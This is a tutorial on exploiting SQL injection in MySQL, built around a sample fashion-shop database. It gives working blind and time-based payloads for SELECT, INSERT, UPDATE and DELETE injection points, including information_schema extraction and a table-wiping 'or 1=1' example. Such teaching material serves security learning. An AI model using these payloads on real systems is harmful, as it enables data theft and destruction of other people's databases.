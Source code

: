 SQL Injection Exploit
=====
In this article, we will discuss about how to exploit SQL Injection in MySQL. Instead of going through all of its type, we will try to inject into 4 statements: SELECT, INSERT, DELETE and UPDATE, with different injection points. Let's imagine with only SELECT statement, the result of the query will return to us, the rest will be hidden.
Below is the script to create a simple database:
```sql
CREATE DATABASE fashion_shop_db;
use fashion_shop_db;
-- Create Category Table
Drop TABLE IF EXISTS Category;
CREATE TABLE Category (
    category_id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL
);

-- Create Product Table
Drop TABLE IF EXISTS Product;
CREATE TABLE Product (
    product_id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(255) NOT NULL,
    description TEXT,
    price DECIMAL(10, 2) NOT NULL,
    stock_quantity INT NOT NULL,
    category_id INT,
    FOREIGN KEY (category_id) REFERENCES Category(category_id)
);

-- Insert example values into Category Table
INSERT INTO Category (name) VALUES
('Men'),
('Women');

-- Insert example values into Product Table
INSERT INTO Product (name, description, price, stock_quantity, category_id) VALUES
('Men\'s T-shirt', 'Cotton T-shirt with a round neck', 20.00, 50, 1),
('Men\'s Jeans', 'Blue denim jeans with a slim fit', 40.00, 30, 1),
('Men\'s Sunglasses', 'Polarized sunglasses with UV protection', 15.00, 20, 1),
('Men\'s Sneakers', 'Comfortable running sneakers', 60.00, 25, 1),
('Men\'s Jacket', 'Water-resistant windbreaker jacket', 80.00, 10, 1),
('Men\'s Hoodie', 'Fleece hoodie with adjustable drawstring', 35.00, 20, 1),
('Men\'s Watch', 'Stainless steel wristwatch with leather strap', 150.00, 10, 1),
('Men\'s Sandals', 'Casual sandals with adjustable straps', 30.00, 22, 1),
('Women\'s T-shirt', 'Cotton T-shirt with a round neck', 20.00, 50, 2),
('Women\'s Jeans', 'Blue denim jeans with a slim fit', 40.00, 30, 2),
('Women\'s Sunglasses', 'Polarized sunglasses with UV protection', 15.00, 20, 2),
('Women\'s Sneakers', 'Comfortable running sneakers', 60.00, 25, 2),
```
The database has 2 tables: `Product` and `Category`, yet we will mainly work with Product table

### 1. SQL Injection in SELECT statement
Here's the query for testing:
```sql
$query= SELECT * FROM Product WHERE product_id = $user_input
$query = SELECT * FROM Product WHERE price = ? limit $user_input
$query = SELECT $user_input FROM Product
```
The last query is quite unfamiliar as the injection point comes before the `FROM` keyword. This query can be used to return a specific column in a table. Let's start with the first query. MySQL supports subquery, so we can use that feature to start a new query in this case :
```sql
select ascii(substr((select @@version),1,1))-50
```
This payload returns the first character of the database version and turns it into `ASCII` value. I minus by 50 to make the product_id small in case we don't have many products created. Therefore, the whole query will loke like this: 
```sql
SELECT * FROM Product WHERE product_id = (select ascii(substr((select @@version),1,1))-50)
```
We can infer the first letter of the database version by observing which product is returned and performing some simple calculations. Repeat this technique to extract the full database version. For further exploitation, we can modify the payload to extract valuable information. For example, we can use this payload to extract the table name: 
```sql
SELECT* FROM Product where product_id = (SELECT ASCII(substr((SELECT table_name FROM information_schema.tables LIMIT 1,1),1,1))-110)
```
Let's move on the next query:
```sql
$query = SELECT * FROM Product WHERE price = ? limit $user_input
```

> The  `LIMIT`  clause can be used to constrain the number of rows returned by the  [`SELECT`](https://dev.mysql.com/doc/refman/8.4/en/select.html "15.2.13 SELECT Statement")  statement.  `LIMIT`  takes one or two numeric arguments, which must both be nonnegative integer constants, with these exceptions:
> -   Within prepared statements,  `LIMIT`  parameters can be specified using  `?`  placeholder markers.
 > -   Within stored programs,  `LIMIT`  parameters can be specified using integer-valued routine parameters or local variables.

As the documentation of MySQL mentioned, it only accepts literal integer, meaning that we cannot enter anything other than integer. In this case, it's likely that we cannot inject our payload here. 

Finally, let's examine the most tricky injection point. It's so uncommon that there's an injection point before the `FROM` keyword, yet still exists. In this situation, we can use `UNION SELECT` to inject our payload. 
```sql
SELECT sleep(1) UNION SELECT IF(substr((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1,1),1,1) = 'p',(SELECT sleep(3)),1) -- from information_schema.tables -- FROM Product WHERE price between 20 and 30 LIMIT 1
```
In the above query, I first let the program `sleep` for 1 second to confirm if it's vulnerable. Next, I use `UNION SELECT` to start a new query with the `IF` clause, which is used to guess each character of a table in the database. The program will sleep 4 seconds in total if the condition matches.

### 2. SQL Injection in INSERT Statement
We will keep the same structure as `SELECT ` statement. First, here's the query for testing:

```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES
("$user_input", ?, ?, ?, ?)
```	
MySQL allows expression as a value, therefore we can easily injection a blind payload in this case by using `or` operand. The whole query will look like this. 

```sql
INSERT INTO Product(name, description, price, stock_quantity, category_id) VALUES ("1" and (select if((substr(database(),1,1)='f'),(select sleep(2)),0)) and "",1,1,1,1); 
```
We use the same technique to extract each character of the database name being used. Note that this technique can only be used for MySQL. 

### 3. SQL Injection in DELETE and UPDATE Statement

The way to exploit these 2 statements is quite similar as injection points often come after **WHERE** clause

```sql
$query = UPDATE Product SET price= ? WHERE product_id=$user_input
$query = DELETE FROM Product WHERE product_id=$user_input
```
We can use the same payload for 2 queries. This can be done by simply input a valid value and then use `and` operand to start a new subquery. Our payload will look like this: 
```sql
UPDATE Product SET price= 1 WHERE product_id = 1 and (select if(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1) = 'p',(select sleep(3)),1));
DELETE FROM Product WHERE product_id= 3 and (select if(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1) = 'p',(select sleep(3)),1));
```
We simply use an `if` clause with time-based payload to extract information of the database. This is the same as injection in`SELECT` statement with injection point after **WHERE** clause

However, we have to be careful when testing with `DELETE` statement. For example if we inject the payload `or 1=1 -- ` into the query 
```sql
$query = DELETE FROM Product WHERE product_id=$user_input
```
Then all instances inside `Product` table will be deleted.

We've just gone through different ways to exploit SQL injection. This is a severe bug but still exists in the wild. The developers should be aware of its impact as well as remember to validate user inputs carefully. Happy hacking!!!
